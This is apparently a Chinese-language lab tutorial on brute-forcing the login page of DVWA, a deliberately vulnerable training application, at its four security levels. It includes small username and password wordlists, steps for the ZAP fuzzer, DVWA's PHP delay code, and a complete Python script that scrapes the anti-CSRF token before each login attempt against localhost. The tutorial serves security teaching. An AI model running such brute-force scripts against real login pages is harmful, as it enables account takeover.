








暴力破解通常是用手工或者工具的方法对一个网站的登陆页面不断尝试各种用户名和密码的组合，直到能试出正确的一个组合。


DVWA的暴力破解难度等级分为四个 ：

- LOW：这一等级并没有对暴力破解做任何的防护，只需不断尝试即可破解。
- Medium: 这一等级是在LOW的基础上做了一点防护，当用户名和密码输错后会让用户在两秒后才能进行下一步的尝试。
- High:这一等级相比前两个等级有了较大的难度，在每次登陆时会带一个token字段发送到服务器端，服务器端会验证用户名，密码和token是否正确，正确才能登陆。token字段是随机生成的，当不了解使用何种算法生成token时是不能进行暴力破解的。
- Impossible: 这一等级DVWA在连续三次输错用户名和密码后会锁定15分钟，15分钟后才能尝试。这样的设定就无法进行暴力破解了。

## 字典


**暴力破解需要一本好的字典，字典越有针对性，破解过程越快。**
这里我们只是为了演示，就随便做了一个用户名的字典，一个密码的字典，字典内容如下：


用户名字典：


```text
admin
user
admin123
root
root123
administrator

```


密码字典：


```text
123456
root
admin123
password
qwerty
abcd1234

```


## LOW等级暴力破解


low等级的暴力破解比较简单，可以使用手工的方法在登陆页面不断进行尝试，但是这种方法用时会很长，这里我用用到了一款工具ZAP。


> OWASP Zed攻击代理（ZAP）是世界上最受欢迎的免费安全审计工具之一，由数百名国际志愿者积极维护。它可以帮助你在开发和测试应用程序时自动查找Web应用程序中的安全漏洞。  
> 也可以说ZAP是一个中间人代理。它能够获取你对Web应用程序发出的所有请求以及你从中收到的所有响应。


ZAP的安装过程省略，提供一个ZAP的下载地址：[https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project](https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project)


### 设置浏览器代理


将其设置为ZAP所监听的端口，我设置的ZAP的端口为6666（默认端口为8080）。
所以需要设置浏览器的代理为：127.0.0.1:6666


浏览器端的设置代理的工具有很多，我用的是火狐浏览器，所用代理工具为“simpleProxy”。





设置好代理后，浏览器端的所有请求和响应都会被ZAP所捕捉到。


### 捕捉并分析请求


在DVWA上随便输入一个用户名和密码，点击登陆，然后在ZAP上查看捕捉到的数据包。





分析捕获到的请求数据报头，发现报头中会携带用户名和密码发送到服务器端，然后服务器端判断是否正确。此时我们就可以在ZAP上不断修改用户名和密码发送到服务器端，然后根据响应结果判断用户名密码是否正确。
ZAP提供的Fuzzer功能可以按照我们提供的字典修改请求头中的参数重复发送到服务器端。





参数设置好后就可以开始爆破了。





### 分析服务器返回的数据





分析数据包发现有一个数据返回的Body大小和其它的都不一样，于是怀疑这条数据是登陆成功后返回的，其它的都是登陆失败后返回的。毕竟正确的用户名和密码只有一个。
于是将此用户名和密码输入到DVWA上发现登陆成功。





## Medium等级暴力破解


Medium等级的暴力破解和LOW等级的暴力破解方法相同，只不过破解时间会变慢。在DVWA上查看源代码发现，每当输入错误的密码后，就会等待0-3秒才能进行下一次登陆。


```php
if( $result && mysqli_num_rows( $result ) == 1 ) {
        // Get users details
        $row    = mysqli_fetch_assoc( $result );
        $avatar = $row["avatar"];

        // Login successful
        echo "<p>Welcome to the password protected area {$user}</p>";
        echo "";
    }
    else {
        // Login failed
        sleep( rand( 0, 3 ) );
        echo "<pre><br />Username and/or password incorrect.</pre>";
    } ;
```


此种方法只会延长暴力破解的时间，并不能阻止暴力破解。


## Hight等级暴力破解


和LOW等级一样，我们抓取Hight等级的请求数据包进行观察。





发现这个请求头比LOW等级的多了一个user_token参数，而且每次请求的user_token参数都是不同的。


_我们必须找出这个usertoken的值是从哪里来的，规律是什么才能进行下一步的暴力破解。
通过观察，我们发现在前端的HTML代码中，登陆框的form表单中有一个隐藏的input。_





发现每次请求都会带上其中的value值进行发送，不断刷新网页，又发现这个value值是不断变化的。在不知道源码的情况下是无法推算出此value值的计算方法的。


这里我写一段python代码来进行破解，思路大概是每次登陆前先获取HTNL代码中的value值然后放入header头中去请求服务器，直到成功为止。也可以使用burpsuit进行破解，过程请参考：
[https://blog.csdn.net/liweibin812/article/details/86287645](https://blog.csdn.net/liweibin812/article/details/86287645)


代码如下：


```python
import requests
from bs4 import BeautifulSoup
import sys

#DVWA High等级暴力破解

#获取usertoken值
header={
    'Host': '127.0.0.1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8',
    'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
    'Accept-Encoding': 'gzip, deflate',
    'Referer': 'http://127.0.0.1/dvwa/vulnerabilities/brute/',
    'Connection': 'keep-alive',
    'Cookie': 'security=high; PHPSESSID=mtsel2kcb1a4uecf6b7e87aa23',
}

def getusertoken():
    # 获取DVWA登陆页面
    r = requests.get('http://127.0.0.1/dvwa/vulnerabilities/brute/',headers=header)
    rsp = r.text

    # 获取登陆表单中的value值
    soup = BeautifulSoup(rsp,'lxml')
    inputname = soup.find(attrs={'name':'usertoken'})
    value = inputname['value']
    return  value


#读取用户名和密码字典
f1 = open('username.txt','r')
userlist = f1.readlines()
for i in range(0,len(userlist)):
    userlist[i] = userlist[i].rstrip('\n')
f1.close()

f2 = open('password.txt','r')
passlist = f2.readlines()
for i in range(0,len(passlist)):
    passlist[i] = passlist[i].rstrip('\n')
f2.close()

# value值即get请求头中的usertoken
# 开始组合请求头并发送到服务器
for username in userlist:
    for password in passlist:
        payload = {'username':username,'password':password,'Login':'Login','usertoken':getusertoken()}
        r = requests.get('http://127.0.0.1/dvwa/vulnerabilities/brute/',headers=header,params=payload)
        rsp = r.text
        #判断是否登陆成功
        try:
            soup = BeautifulSoup(rsp,'lxml')
            errortext= soup.find(soup.pre.br.string)
            errortext = str(errortext)
            if 'incorrect' in errortext:
                print(username,password+'  '+'错误')
        except AttributeError:
            print(username,password+'  '+'正确')
            sys.exit() #找到正确密码就退出程序，不在往下执行

```

